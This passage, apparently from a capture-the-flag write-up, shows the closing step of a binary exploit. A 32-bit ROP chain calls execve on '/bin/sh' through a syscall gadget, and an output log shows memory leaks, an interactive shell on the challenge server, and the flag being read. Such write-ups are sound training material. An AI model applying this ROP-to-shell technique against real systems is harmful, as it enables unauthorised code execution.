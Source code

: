 ```
rop += p32(POPECXEAX)
rop += p32(0)
rop += p32(11)
rop += p32(POPEBX)
rop += p32(next(libc.search("/bin/sh")))
rop += p32(POPEDX)
rop += p32(0)
rop += p32(SYSCALL)
    
r.sendline(rop)
```

which then finally lands a shell

```
[+] Opening connection to io.ept.gg on port 51041: Done
[*] PIE leak     : 0x565b51d1
[*] ELF          : 0x565b3000
[*] HEAP leak    : 0x56c861c0
[*] LIBC  leak   : 0xf7fa7620
[*] LIBC         : 0xf7d7d000
[*] Switching to interactive mode
Exiting the program...
$ ls
travel_tracker
ynetd
$ cat /opt/flag
EPT{l3gacy_l0v3}$  
```